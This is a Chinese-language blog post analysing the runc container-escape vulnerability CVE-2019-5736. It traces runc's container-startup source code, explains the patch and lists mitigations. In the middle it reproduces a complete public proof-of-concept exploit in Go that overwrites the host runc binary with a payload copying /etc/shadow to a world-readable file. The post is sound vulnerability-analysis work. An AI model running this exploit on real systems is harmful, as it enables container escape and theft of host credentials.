


# Docker runc(CVE-2019-5736)漏洞分析-第三版


大概一周前，Eric认为我写的这篇文档太垃了，我仔细读了一遍，发现确实写的挺混乱的，还无法做到传达相关知识给不了解这一漏洞的人。希望这第三版至少能够让将来的自己看得懂吧🤐

<!--more-->

## 漏洞背景
[**runc**](https://github.com/opencontainers/runc)是一个根据OCI(Open Container Initiative)标准创建并运行容器的命令行工具，是Docker的底层容器运行时。

[**CVE-2019-5736**](https://nvd.nist.gov/vuln/detail/CVE-2019-5736)是由波兰的一支ctf战队Dragon Sector在2019发现的关于runc的漏洞。起因是他们在参加一场ctf比赛之后，发现比赛中的一道沙箱逃逸题的原理与runc的实现原理类似。在这之后他们对runc进行了相关的漏洞挖掘工作，并且成功发现了runc中存在的能够被用来覆盖宿主机上runc文件的容器逃逸漏洞，该漏洞的CVE编号为**CVE-2019-5736**。

利用该漏洞，攻击者可以通过修改容器内可执行文件的方式，获取到宿主机上runc可执行文件的文件句柄，然后进行覆盖操作，将runc替换为可控的恶意文件。最终可造成在宿主机上以root权限执行任意代码的严重后果，实现容器逃逸。

有关该漏洞的详细叙述可见漏洞的[oss-security发布邮件](https://www.openwall.com/lists/oss-security/2019/02/11/2)与[dragon sector的官方博客](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)。

> 影响版本：runc <= 1.0-rc6

## 漏洞成因

该漏洞的产生主要和Linux的[`pid`命名空间](https://man7.org/linux/man-pages/man7/pid_namespaces.7.html)与[`/proc`伪文件系统](https://man7.org/linux/man-pages/man5/proc.5.html)相关。

当一个进程加入了某一pid命名空间之后，该命名空间中的其它进程就能够通过`/proc`文件系统观察到该进程，在权限允许的情况下，进程能够通过`/proc/[pid]/exe`找到其它进程对应的二进制文件。

而如果将这种情况放到`runc init`执行过程中来看，`runc init`进程在进入了容器的命名空间之后，如果容器内部的文件能够欺骗`runc init`进程执行自身，那么容器内的进程就能够通过`/proc`获取到宿主机上的runc文件句柄，从而进行覆盖等攻击操作。

正常的创建容器并在容器内执行命令的过程示意图如下图所示（具体流程见下文代码分析）。



而修改了待执行文件的内容之后，`runc init`进程会执行自身，从而将宿主机上的runc文件暴露给了容器内部，造成安全风险。




### 具体代码分析

#### runc启动容器的过程

`runc run`对应的command在[run.go](https://github.com/opencontainers/runc/blob/master/run.go)中被定义

```go
// default action is to start a container
var runCommand = cli.Command{
    Name:  "run",
    Usage: "create and run a container",
    ...
    Action: func(context *cli.Context) error {
        if err := checkArgs(context, 1, exactArgs); err != nil {
            return err
        }
        status, err := startContainer(context, CT_ACT_RUN, nil)
        if err == nil {
            // exit with the container's exit status so any external supervisor is
            // notified of the exit with the correct exit status.
            os.Exit(status)
        }
        return fmt.Errorf("runc run failed: %w", err)
    },
}
```
对应的`Action`会执行[`startContainer()`](https://github.com/opencontainers/runc/blob/master/utils_linux.go#L398-L456)函数。该函数会读取容器配置文件`config.json`的信息，生成`spec`对象，再将其作为参数通过`createContainer()`生成`container`对象。通过包含`container`对象的`runner`对象调用`r.run()`启动容器。

```go
func startContainer(context *cli.Context, action CtAct, criuOpts *libcontainer.CriuOpts) (int, error) {
    if err := revisePidFile(context); err != nil {
        return -1, err
    }
    //读取配置文件，获取配置信息
    spec, err := setupSpec(context)
    if err != nil {
        return -1, err
    }

    id := context.Args().First()
    if id == "" {
        return -1, errEmptyID
    }

    notifySocket := newNotifySocket(context, os.Getenv("NOTIFY_SOCKET"), id)
    if notifySocket != nil {
        if err := notifySocket.setupSpec(context, spec); err != nil {
            return -1, err
        }
    }
    //传入配置参数，创建container对象
    container, err := createContainer(context, id, spec)
    if err != nil {
        return -1, err
    }

    if notifySocket != nil {
        if err := notifySocket.setupSocketDirectory(); err != nil {
            return -1, err
        }
        if action == CT_ACT_RUN {
            if err := notifySocket.bindSocket(); err != nil {
                return -1, err
            }
        }
    }

    // Support on-demand socket activation by passing file descriptors into the container init process.
    listenFDs := []*os.File{}
    if os.Getenv("LISTEN_FDS") != "" {
        listenFDs = activation.Files(false)
    }

    r := &runner{
        enableSubreaper: !context.Bool("no-subreaper"),
        shouldDestroy:   !context.Bool("keep"),
        container:       container,
        listenFDs:       listenFDs,
        notifySocket:    notifySocket,
        consoleSocket:   context.String("console-socket"),
        detach:          context.Bool("detach"),
        pidFile:         context.String("pid-file"),
        preserveFDs:     context.Int("preserve-fds"),
        action:          action,
        criuOpts:        criuOpts,
        init:            true,
    }
    return r.run(spec.Process)
}
```

`r.run()`对应于定义在[utils_linux.go](https://github.com/opencontainers/runc/blob/master/utils_linux.go)中的[`run()`](https://github.com/opencontainers/runc/blob/master/utils_linux.go#L260-L346)。之前传入的`action`值为`CT_ACT_RUN`，因此这里将会执行`r.container.Run(process)`。
```go
//runc run命令对应的action
    Action: func(context *cli.Context) error {
        ...
        //传入action参数为CT_ACT_RUN
        status, err := startContainer(context, CT_ACT_RUN, nil)
        ...
```

```go
func (r *runner) run(config *specs.Process) (int, error) {
    ...
    //根据config创建process
    process, err := newProcess(*config)
    if err != nil {
        return -1, err
    }
    process.LogLevel = strconv.Itoa(int(logrus.GetLevel()))
    // Populate the fields that come from runner.
    process.Init = r.init //r.init为 true
    ...
    //r.action此时为CT_ACT_RUN
    switch r.action {
    case CT_ACT_CREATE:
        err = r.container.Start(process)
    case CT_ACT_RESTORE:
        err = r.container.Restore(process, r.criuOpts)
    case CT_ACT_RUN:
        //调用该方法
        err = r.container.Run(process)
    default:
        panic("Unknown action")
    }
    ...
}
```

`r.container`由`createContainer()`函数创建，根据`createContainer()->loadFactory()->factory.Create()`的调用链可知，`r.container`最终是由[`LinuxFactory.Create()`](https://github.com/opencontainers/runc/blob/master/libcontainer/factory_linux.go#L251-L292)所创建。所以`r.container.Run()`将会调用[`LinuxContainer.Run()`](https://github.com/opencontainers/runc/blob/master/libcontainer/container_linux.go#L248-L256)，`Run()`包含了整个容器的启动逻辑。
```go
func (l *LinuxFactory) Create(id string, config *configs.Config) (Container, error) {
    ...
    c := &linuxContainer{
        id:            id,                 //容器id
        root:          containerRoot,      
        config:        config,
        initPath:      l.InitPath,
        initArgs:      l.InitArgs,
        criuPath:      l.CriuPath,
        newuidmapPath: l.NewuidmapPath,
        newgidmapPath: l.NewgidmapPath,
        cgroupManager: l.NewCgroupsManager(config.Cgroups, nil),
    }
    if l.NewIntelRdtManager != nil {
        c.intelRdtManager = l.NewIntelRdtManager(config, id, "")
    }
    c.state = &stoppedState{c: c}
    return c, nil
}
```

```go
func (c *linuxContainer) Run(process *Process) error {
    if err := c.Start(process); err != nil {
        return err
    }
    if process.Init {
        return c.exec()
    }
    return nil
}
```

`Run()`的调用链为`linuxContainer.Run()->linuxContainer.Start()->linuxContainer.start()`。`Run()`/`Start()`都是封装的linuxContainer导出函数，而真正的执行过程在[`start()`](https://github.com/opencontainers/runc/blob/master/libcontainer/container_linux.go#L336-L375)中。

`start()`函数调用`newParentProcess()`创建父进程对象`parent`，并调用`parent.start()`启动子进程。

```go
func (c *linuxContainer) start(process *Process) (retErr error) {
    //创建parent对象
    parent, err := c.newParentProcess(process)
    if err != nil {
        return fmt.Errorf("unable to create new parent process: %w", err)
    }

    logsDone := parent.forwardChildLogs()
    if logsDone != nil {
        defer func() {
            // Wait for log forwarder to finish. This depends on
            // runc init closing the _LIBCONTAINER_LOGPIPE log fd.
            err := <-logsDone
            if err != nil && retErr == nil {
                retErr = fmt.Errorf("unable to forward init logs: %w", err)
            }
        }()
    }
    //启动子进程
    if err := parent.start(); err != nil {
        return fmt.Errorf("unable to start container process: %w", err)
    }

    if process.Init {
        c.fifo.Close()
        if c.config.Hooks != nil {
            s, err := c.currentOCIState()
            if err != nil {
                return err
            }

            if err := c.config.Hooks[configs.Poststart].RunHooks(s); err != nil {
                if err := ignoreTerminateErrors(parent.terminate()); err != nil {
                    logrus.Warn(fmt.Errorf("error running poststart hook: %w", err))
                }
                return err
            }
        }
    }
    return nil
}
```
其中，[`newParentProcess()`](https://github.com/opencontainers/runc/blob/master/libcontainer/container_linux.go#L455-L482)首先创建了父子进程之间通信的管道，然后调用[`commandTemplate()`](https://github.com/opencontainers/runc/blob/master/libcontainer/container_linux.go#L484-L521)配置子进程的命令为`runc init`，并将管道文件传给子进程，让其可以与父进程通信。
```go
func (c *linuxContainer) newParentProcess(p *Process) (parentProcess, error) {
    //创建管道文件，管道的两端 parent/child 分别供父子进程使用
    parentInitPipe, childInitPipe, err := utils.NewSockPair("init")
    if err != nil {
        return nil, fmt.Errorf("unable to create init pipe: %w", err)
    }
    messageSockPair := filePair{parentInitPipe, childInitPipe}

    parentLogPipe, childLogPipe, err := os.Pipe()
    if err != nil {
        return nil, fmt.Errorf("unable to create log pipe: %w", err)
    }
    logFilePair := filePair{parentLogPipe, childLogPipe}
    //写入子进程的命令
    cmd := c.commandTemplate(p, childInitPipe, childLogPipe)
    if !p.Init {
        return c.newSetnsProcess(p, cmd, messageSockPair, logFilePair)
    }

    // We only set up fifoFd if we're not doing a `runc exec`. The historic
    // reason for this is that previously we would pass a dirfd that allowed
    // for container rootfs escape (and not doing it in `runc exec` avoided
    // that problem), but we no longer do that. However, there's no need to do
    // this for `runc exec` so we just keep it this way to be safe.
    if err := c.includeExecFifo(cmd); err != nil {
        return nil, fmt.Errorf("unable to setup exec fifo: %w", err)
    }
    return c.newInitProcess(p, cmd, messageSockPair, logFilePair)
}
```

```go
func (c *linuxContainer) commandTemplate(p *Process, childInitPipe *os.File, childLogPipe *os.File) *exec.Cmd {
    //initPath: "/proc/self/exe"
    //initArgs: ["runc", "init"]
    cmd := exec.Command(c.initPath, c.initArgs[1:]...)
    cmd.Args[0] = c.initArgs[0]
    cmd.Stdin = p.Stdin
    cmd.Stdout = p.Stdout
    cmd.Stderr = p.Stderr
    cmd.Dir = c.config.Rootfs
    if cmd.SysProcAttr == nil {
        cmd.SysProcAttr = &unix.SysProcAttr{}
    }
    cmd.Env = append(cmd.Env, "GOMAXPROCS="+os.Getenv("GOMAXPROCS"))
    cmd.ExtraFiles = append(cmd.ExtraFiles, p.ExtraFiles...)
    if p.ConsoleSocket != nil {
        cmd.ExtraFiles = append(cmd.ExtraFiles, p.ConsoleSocket)
        cmd.Env = append(cmd.Env,
            "_LIBCONTAINER_CONSOLE="+strconv.Itoa(stdioFdCount+len(cmd.ExtraFiles)-1),
        )
    }
    //传入用于通信的管道文件
    cmd.ExtraFiles = append(cmd.ExtraFiles, childInitPipe)
    cmd.Env = append(cmd.Env,
        "_LIBCONTAINER_INITPIPE="+strconv.Itoa(stdioFdCount+len(cmd.ExtraFiles)-1),
        "_LIBCONTAINER_STATEDIR="+c.root,
    )

    cmd.ExtraFiles = append(cmd.ExtraFiles, childLogPipe)
    cmd.Env = append(cmd.Env,
        "_LIBCONTAINER_LOGPIPE="+strconv.Itoa(stdioFdCount+len(cmd.ExtraFiles)-1),
        "_LIBCONTAINER_LOGLEVEL="+p.LogLevel,
    )

    // NOTE: when running a container with no PID namespace and the parent process spawning the container is
    // PID1 the pdeathsig is being delivered to the container's init process by the kernel for some reason
    // even with the parent still running.
    if c.config.ParentDeathSignal > 0 {
        cmd.SysProcAttr.Pdeathsig = unix.Signal(c.config.ParentDeathSignal)
    }
    return cmd
}
```
```go
    l := &LinuxFactory{
        Root:      root,
        InitPath:  "/proc/self/exe",
        InitArgs:  []string{os.Args[0], "init"}, //runc init
        Validator: validate.New(),
        CriuPath:  "criu",
    }
```
完成这些步骤之后，`newParentProcess()`返回[`initProcess`](https://github.com/opencontainers/runc/blob/master/libcontainer/process_linux.go#L300-L312)类型的对象`parent`，然后调用`parent.start()`启动`runc init`子进程，并且等待其拉起容器并退出。
```go
func (p *initProcess) start() (retErr error) {
    defer p.messageSockPair.parent.Close() //nolint: errcheck
    //相当于执行runc init命令，启动runc init子进程
    err := p.cmd.Start()
    ...
    //将bootstrapData写入到管道文件中，子进程可以通过child端读取
    if _, err := io.Copy(p.messageSockPair.parent, p.bootstrapData); err != nil {
        return fmt.Errorf("can't copy bootstrap data to pipe: %w", err)
    }
    ...
    //向runc init子进程发送容器的配置信息
    if err := p.sendConfig(); err != nil {
        return fmt.Errorf("error sending config to init process: %w", err)
    }
    var (
        sentRun    bool
        sentResume bool
    )

    //从管道的parent端读取runc init子进程发送的同步信息
    ierr := parseSync(p.messageSockPair.parent, func(sync *syncT) error {
        ...
    })
    ...
    return nil
}
```
到这里，`runc run`的执行基本结束，它已经完成了读取config.json文件、创建传递信息的各类对象、启动runc init子进程等操作，并且已经在等待runc init子进程的退出。

接下来就进入到了`runc init`的执行过程，这也是实际完成启动容器进程的执行过程。

`runc init`命令对应的函数为[`init()`](https://github.com/opencontainers/runc/blob/master/init.go)。
```go
package main

import (
    "os"
    "runtime"
    "strconv"

    "github.com/opencontainers/runc/libcontainer"
    //匿名引入nsenter包
    _ "github.com/opencontainers/runc/libcontainer/nsenter"
    "github.com/sirupsen/logrus"
)

func init() {
    //这里 os.Args[1] == "init" 匹配 "runc init" 命令
    if len(os.Args) > 1 && os.Args[1] == "init" {
        // This is the golang entry point for runc init, executed
        // before main() but after libcontainer/nsenter's nsexec().
        ...
        factory, _ := libcontainer.New("")
        if err := factory.StartInitialization(); err != nil {
            // as the error is sent back to the parent there is no need to log
            // or write it to stderr because the parent process will handle this
            os.Exit(1)
        }
        panic("libcontainer: container init failed to exec")
    }
}
```
其中引入了`nsenter`包，由于CGO的特性，`nsenter`中的[`nsexec()`](https://github.com/opencontainers/runc/blob/master/libcontainer/nsenter/nsexec.c#L636-L1144)函数会首先被执行，它主要完成进入命名空间的操作，这也是后续的漏洞修复代码被引入的位置。
```cpp
void nsexec(void)
{
    int pipenum;
    jmp_buf env;
    int sync_child_pipe[2], sync_grandchild_pipe[2];
    struct nlconfig_t config = { 0 };
    ...
    /*
     * Get the init pipe fd from the environment. The init pipe is used to
     * read the bootstrap data and tell the parent what the new pids are
     * after the setup is done.
     */
    //获取管道文件，读取namespaces信息
    pipenum = getenv_int("_LIBCONTAINER_INITPIPE");
    if (pipenum < 0) {
        /* We are not a runc init. Just return to go runtime. */
        return;
    }
    ...
    /* Parse all of the netlink configuration. */
    //从pipe读取容器配置信息
    nl_parse(pipenum, &config);
    ...
    current_stage = setjmp(env);
    switch (current_stage) {
        /*
         * Stage 0: We're in the parent. Our job is just to create a new child
         *          (stage 1: STAGE_CHILD) process and write its uid_map and
         *          gid_map. That process will go on to create a new process, then
         *          it will send us its PID which we will send to the bootstrap
         *          process.
         */
    case STAGE_PARENT:{
        ...
        }
        break;

        /*
         * Stage 1: We're in the first child process. Our job is to join any
         *          provided namespaces in the netlink payload and unshare all of
         *          the requested namespaces. If we've been asked to CLONE_NEWUSER,
         *          we will ask our parent (stage 0) to set up our user mappings
         *          for us. Then, we create a new child (stage 2: STAGE_INIT) for
         *          PID namespace. We then send the child's PID to our parent
         *          (stage 0).
         */
    case STAGE_CHILD:{
            ...
            /*
             * We need to setns first. We cannot do this earlier (in stage 0)
             * because of the fact that we forked to get here (the PID of
             * [stage 2: STAGE_INIT]) would be meaningless). We could send it
             * using cmsg(3) but that's just annoying.
             */
            //加入命名空间
            if (config.namespaces)
                join_namespaces(config.namespaces);
            ...
        }
        break;

        /*
         * Stage 2: We're the final child process, and the only process that will
         *          actually return to the Go runtime. Our job is to just do the
         *          final cleanup steps and then return to the Go runtime to allow
         *          init_linux.go to run.
         */
    case STAGE_INIT:{
        ...
        }
        break;
    default:
        bail("unknown stage '%d' for jump value", current_stage);
    }

```

`StartInitialization()`从环境变量`_LIBCONTAINER_INITPIPE`获取管道文件，并创建`linuxStandard`类型的对象，调用`r.Init()`进行容器初始化工作。

```go
func (l *LinuxFactory) StartInitialization() (err error) {
    // Get the INITPIPE.
    // 从环境变量获取管道文件
    envInitPipe := os.Getenv("_LIBCONTAINER_INITPIPE")
    pipefd, err := strconv.Atoi(envInitPipe)
    if err != nil {
        err = fmt.Errorf("unable to convert _LIBCONTAINER_INITPIPE: %w", err)
        logrus.Error(err)
        return err
    }
    pipe := os.NewFile(uintptr(pipefd), "pipe")
    defer pipe.Close()
    ...
    i, err := newContainerInit(it, pipe, consoleSocket, fifofd, logPipeFd)
    if err != nil {
        return err
    }

    // If Init succeeds, syscall.Exec will not return, hence none of the defers will be called.
    return i.Init()
    
```

```go
func (l *linuxStandardInit) Init() error {
    ...
    //设置网络
    if err := setupNetwork(l.config); err != nil {
        return err
    }
    //设置路由
    if err := setupRoute(l.config.Config); err != nil {
        return err
    }

    // initialises the labeling system
    selinux.GetEnabled()
    //切换为容器内的文件系统
    if err := prepareRootfs(l.pipe, l.config); err != nil {
        return err
    }
    ...
    //替换自身进程
    if err := system.Exec(name, l.config.Args[0:], os.Environ()); err != nil {
        return fmt.Errorf("can't exec user process: %w", err)
    }
    return nil
```

`Init()`函数会完成容器的网络设置、切换文件系统等操作，最后调用`system.Exec()`替换自身。至此，容器启动流程执行完毕。

#### poc代码

https://github.com/Frichetten/CVE-2019-5736-PoC

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
    "fmt"
    "io/ioutil"
    "os"
    "strconv"
    "strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func main() {
    // First we overwrite /bin/sh with the /proc/self/exe interpreter path
    fd, err := os.Create("/bin/sh")
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Fprintln(fd, "#!/proc/self/exe")
    err = fd.Close()
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Println("[+] Overwritten /bin/sh successfully")

    // Loop through all processes to find one whose cmdline includes runcinit
    // This will be the process created by runc
    var found int
    for found == 0 {
        pids, err := ioutil.ReadDir("/proc")
        if err != nil {
            fmt.Println(err)
            return
        }
        for _, f := range pids {
            fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
            fstring := string(fbytes)
            if strings.Contains(fstring, "runc") {
                fmt.Println("[+] Found the PID:", f.Name())
                found, err = strconv.Atoi(f.Name())
                if err != nil {
                    fmt.Println(err)
                    return
                }
            }
        }
    }

    // We will use the pid to get a file handle for runc on the host.
    var handleFd = -1
    for handleFd == -1 {
        // Note, you do not need to use the O_PATH flag for the exploit to work.
        handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
        if int(handle.Fd()) > 0 {
            handleFd = int(handle.Fd())
        }
    }
    fmt.Println("[+] Successfully got the file handle")

    // Now that we have the file handle, lets write to the runc binary and overwrite it
    // It will maintain it's executable flag
    for {
        writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
        if int(writeHandle.Fd()) > 0 {
            fmt.Println("[+] Successfully got write handle", writeHandle)
            writeHandle.Write([]byte(payload))
            return
        }
    }
}
```
## 漏洞修复

runc团队在1.0.0-rc7的版本中增加了该漏洞的[补丁](https://github.com/opencontainers/runc/commit/0a8e4117e7f715d5fbeef398405813ce8e88558b)，修复漏洞的方式是在`runc init`进程进入到容器命名空间之前，先将`/proc/self/exe`（即宿主机上的runc）复制到内存中，然后用复制产生的匿名文件替换当前被执行文件的句柄，这样就能够防止将宿主机的runc文件暴露给容器内部的进程。

```cpp
void nsexec(void)
{
    ...
    /*
     * We need to re-exec if we are not in a cloned binary. This is necessary
     * to ensure that containers won't be able to access the host binary
     * through /proc/self/exe. See CVE-2019-5736.
     */
    if (ensure_cloned_binary() < 0)
        bail("could not ensure we are a cloned binary");
    ...
}
```

```cpp
int ensure_cloned_binary(void)
{
    int execfd;
    char **argv = NULL;

    /* Check that we're not self-cloned, and if we are then bail. */
    int cloned = is_self_cloned();
    if (cloned > 0 || cloned == -ENOTRECOVERABLE)
        return cloned;

    if (fetchve(&argv) < 0)
        return -EINVAL;
    //复制匿名文件
    execfd = clone_binary();
    if (execfd < 0)
        return -EIO;

    if (putenv(CLONED_BINARY_ENV "=1"))
        goto error;
    //执行该复制的匿名文件
    fexecve(execfd, argv, environ);
    error:
    close(execfd);
    return -ENOEXEC;
}    
```

## 修补建议
- 更新docker，使用最新版本的runc
- 执行`docker exec`命令启动容器时，开启`SELinux`选项，限制容器内部进程可访问的资源
- 设置宿主机上的runc二进制文件为只读
- 尽量避免给予容器用户容器内部的root权限

## PS

这里还有另一个点想记一下。我一开始总想，既然进入`pid`命名空间之后，就可以通过`/proc/`看到，那为什么不直接在`runc init`进程的`esexec()`函数执行完之后就开始进行poc里面的攻击操作呢。后来我经过查找资料发现，确实有[别的博客](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)说过这个问题，并且说明其实在更早期的runc版本中，就是存在这一漏洞的。攻击者确实可以在`runc init`进入命名空间之后尝试修改宿主机上的runc文件，这一问题也被分发了一个cve，编号为[CVE-2016-9962](https://bugzilla.suse.com/show_bug.cgi?id=1012568)。但是由于`nsexec()`与最后的`system.Exec()`进程替换之间的时间窗格较小，所以攻击难度较大，该漏洞的严重程度也并没有那么的高。

>
> From: Aleksa Sarai
> 
> runC passes a file descriptor from the host's filesystem to the "runc
> init" bootstrap process when joining a container. This allows a
> malicious process inside a container to gain access to the host
> filesystem with its current privilege set. **Due to the race window
> between join-and-execve being quite small, this bug is quite hard to
> exploit.** A similar, though mostly unrelated, exploit was discovered in
> LXC[\[1\]](http://www.openwall.com/lists/oss-security/2016/11/23/6).
> 

## 往期回顾
- [docker-runc(CVE-2019-5736)漏洞分析](https://liuliuliuzy.github.io/posts/2021-04-20-runc%E6%BA%90%E7%A0%81%E5%B0%9D%E8%AF%95%E5%88%86%E6%9E%90%E4%B8%8Ecve-2019-5736%E6%BA%90%E7%A0%81%E5%B0%9D%E8%AF%95%E5%88%86%E6%9E%90/)
- [docker-runc(CVE-2019-5736)漏洞分析-第二版](https://liuliuliuzy.github.io/posts/2021-04-27-docker-runc-cve-2019-5736-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-%E7%AC%AC%E4%BA%8C%E7%89%88/)
